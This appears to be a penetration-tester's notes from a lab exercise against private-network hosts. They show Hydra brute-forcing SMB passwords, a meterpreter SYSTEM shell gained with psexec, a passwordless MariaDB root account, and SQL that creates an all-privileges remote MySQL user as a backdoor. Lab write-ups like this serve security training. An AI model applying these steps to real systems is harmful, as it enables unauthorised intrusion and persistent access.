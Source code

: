 Brute Force on `/phpmyadmin/index.php?route=/`, attacking MariaDB, which is being ran on 192.168.100.52, so it could be connecting to that machine 
+ **Credentials**: Root:`<NoPassword>`

#### Wordpress 
Plugins: 
```
meterpreter > ls
Listing: c:\wamp64\www\wordpress\wp-content\plugins
===================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   4096  dir   2022-04-19 02:44:56 +0530  burger-companion
100666/rw-rw-rw-  28    fil   2022-04-19 02:33:53 +0530  index.php
40777/rwxrwxrwx   4096  dir   2022-04-19 02:53:37 +0530  wp-file-manager
40777/rwxrwxrwx   4096  dir   2022-04-19 03:00:16 +0530  wp-responsive-thumbnail-slide
```

### SMB
**credentials**: admin:superman 
+ Found with hydra 
+ Used msfconsole psexec module to get meterpreter shell 
+ Server username: NT AUTHORITY\SYSTEM
+ Confirm OS: Microsoft Windows Server 2012 R2 Standard

No other connected networks to this one 

Enumeration 
+ Found that the MariaDB database has a default account of root, and then no password
+ Creating a MySQL user: `CREATE USER user1 IDENTIFIED by 'pass1';`
+ Granting it all privileges: `GRANT ALL PRIVILEGES ON *.* TO user1@'%'; `

Users:
``` Shell
C:\Users\mike>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
mike                     vince                    
The command completed with one or more errors.
```

``` Shell
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-16 08:44:05
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 4 login tries (l:1/p:4), ~4 tries per task
[DATA] attacking smb://192.168.100.50:445/
[445][smb] host: 192.168.100.50   login: mike   password: diamond
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-16 08:44:05
root@kali:~#
```
